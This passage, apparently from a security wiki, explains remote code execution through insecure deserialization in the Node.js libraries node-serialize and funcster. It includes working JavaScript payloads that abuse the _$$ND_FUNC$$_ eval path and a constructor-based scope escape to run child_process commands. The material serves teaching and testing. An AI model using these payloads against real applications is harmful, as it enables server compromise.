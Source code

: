 As it was previously indicated, this library will get the code after`_$$ND_FUNC$$_` and will **execute it** using `eval`. Therefore, in order to **auto-execute code** you can **delete the function creation** part and the last parenthesis and **just execute a JS oneliner** like in the following example:

```javascript
var serialize = require("node-serialize");
var test = "{\"rce\":\"_$$ND_FUNC$$_require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })\"}";
serialize.unserialize(test);
```

You can [**find here**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **further information** about how to exploit this vulnerability.

<br>

### [funcster](https://www.npmjs.com/package/funcster)

A noteworthy aspect of **funcster** is the inaccessibility of **standard built-in objects**; they fall outside the accessible scope. This restriction prevents the execution of code that attempts to invoke methods on built-in objects, leading to exceptions such as `"ReferenceError: console is not defined"` when commands like `console.log()` or `require(something)` are used.

Despite this limitation, restoration of full access to the global context, including all standard built-in objects, is possible through a specific approach. By leveraging the global context directly, one can bypass this restriction. For instance, access can be re-established using the following snippet:

```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function () {
  return "Hello world!";
});
console.log(test); // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' };
funcster.deepDeserialize(desertest1);
var desertest2 = {
  __js_function: 'this.constructor.constructor("console.log(1111)")()',
};
funcster.deepDeserialize(desertest2);
var desertest3 = {
  __js_function:
    "this.constructor.constructor(\"require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\")()",
};
funcster.deepDeserialize(desertest3);
```

**For**[ **more information read this source**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**
